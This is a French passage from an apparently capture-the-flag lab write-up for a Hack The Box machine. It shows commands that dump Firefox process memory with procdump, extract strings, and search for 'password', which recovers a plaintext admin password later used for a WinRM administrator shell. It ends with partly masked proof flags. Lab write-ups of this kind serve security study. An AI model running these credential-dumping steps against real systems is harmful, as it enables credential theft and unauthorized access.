- On dump la mémoire du processus firefox : `.\procdump64.exe -accepteula -ma <PID>`

- On extrait les chaînes de caractéres du dump : `cmd /c "strings64.exe -accepteula <FILE>.dmp > <OUTPUT>.txt"`

- Et on y recherche le mot clé `password` : `findstr "password" ./<OUTPUT>.txt`

```
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

- Le shell WinRM marche avec le compte `administrator/4dD!5}x/re8]FBuZ`

# Proof

- User : a127daef77aXXXXXXXXXX653295f59c4
- Root : 50dfa3c6bfd20e2e0d071XXXXXXXXXX7